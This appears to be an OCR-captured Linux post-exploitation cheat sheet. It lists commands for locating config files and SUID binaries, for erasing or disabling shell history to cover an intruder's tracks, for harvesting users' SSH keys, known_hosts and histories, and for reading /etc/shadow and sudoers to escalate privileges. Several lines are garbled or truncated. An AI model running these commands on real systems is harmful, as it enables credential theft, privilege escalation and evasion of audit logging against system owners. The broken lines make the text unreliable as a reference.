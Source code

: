 locate sql | grep [.]sql$
locate settings | grep [.]php$  
locate config.inc | grep [.]php$
ls /home/*/id*
 .properties | grep [.]properties # java config files
locate .xml | grep [.]xml # java/.net config files
find /sbin /usr/sbin /opt /lib `echo $PATH | 'sed s/:/ /g'` -perm /6000  -ls # find suids
locate rhosts
Covering Your Tracks
Avoiding history filesmys
export HISTFILE=
or 
unset HISTFILE
This next one might not be a good idea, because a lot of folks know to check for tampering with this file, and will be suspicious if they find out:	

However if you happen to be on an account that was originally inaccessible, if the .bash_history file is available (ls -a ~), viewcating its contents can provide you with a good deal of information about the system and its most recent updates/changes.  
clear all history in ram
history -c
rm -rf ~/.bash_history && ln -s ~/.bash_history /dev/null (invasive)
touch ~/.bash_history (invasive)
<space> history -c (using a space before a command)	
zsh% unset HISTFILE HISTSIZE	
tcsh% set history=0	
bash$ set +o history
ksh$ unset HISTFILE
find / -type f -exec {} (forensics nightmare)

Note that you're probably better off modifying or temporary disabling rather than deleting history files, it leaves a lot less traces and is less suspect.

In some cases HISTFILE and HISTFILESIZE are made read-only; get around this by explicitly clearing history (history -c) or by kill -9 $$'ing the shell. Sometimes the shell can be configured to run 'history -w' after every command; get around this by overriding 'history' with a no-op shell function. None of this will help if the shell is configured to log everything to syslog, however.
Obtain users' information
ls -alh /home/*/	
ls -alh /home/*/.ssh/
cat /home/*/.ssh/authorized_keys
cat /home/*/.ssh/known_hosts
cat /home/*/.*hist* # you can learn a lot from this
find /home/*/.vnc /home/*/.subversion -type f 
grep ^ssh /home/*/.*hist*
grep ^telnet `/home/*/.*hist*
grep ^mysql /home/*/.*hist*
cat /home/*/.viminfo
sudo -l # if sudoers is not. readable, this sometimes works per user
crontab -l
cat /home/*/.mysql_history

Escalating
Looking for possible opened paths
ls -alh /root/
sudo -l
cat /etc/sudoers
cat /etc/shadow
cat /etc/master.passwd # OpenBSD
cat /var/spool/cron/crontabs/* | cat /var/spool/cron/*
lsof -nPi
ls /home/*/.ssh/*
